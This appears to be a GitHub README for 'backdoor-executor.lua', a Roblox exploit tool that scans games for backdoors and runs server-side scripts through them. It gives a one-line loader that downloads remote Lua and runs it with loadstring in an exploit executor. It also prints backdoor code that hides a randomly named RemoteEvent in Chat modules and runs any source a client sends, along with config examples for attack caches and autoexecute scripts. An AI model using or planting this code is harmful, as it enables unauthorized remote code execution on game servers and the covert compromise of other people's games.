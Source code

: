 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe) in terms of scanning.

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing serversided scripts within a gui.
### Script
Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Requirements
- A brain that can read this stuffs
- Decent executor that supports filesystem functions (for config)
### Authors
**jLn0n**
- Discord: jLn0n#1464(474555624219344906)
- Github: [@jLn0n](https://github.com/jLn0n)
- Guilded: [jLn0n](https://www.guilded.gg/profile/1Ar9EYwm)
### Config Help
- My config has reset back to original
> The config will reset to the original config if the config version(configVer in [bexe-config.lua](https://github.com/jLn0n/created-scripts-public/blob/main/backdoor-executor/bexe-config.lua)) is lower than the original config so you should always backup your config to prevent config resets
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["Func"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn u that the cache is outdated
- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua needs a new name!")]]
},
```
- blacklisting events
> it should be just like adding scripts on autoexecute, example:
```lua
{
	["eventNames"] = {
		["blacklistedNameHere"] = true
	},
	["eventParentNames"] = {
		["blacklistedParentName"] = true
	}
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptService`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for me copying this thingy(and modifying it).)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(1, 99999999))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, source)
	loadstring(source)()
end)
```
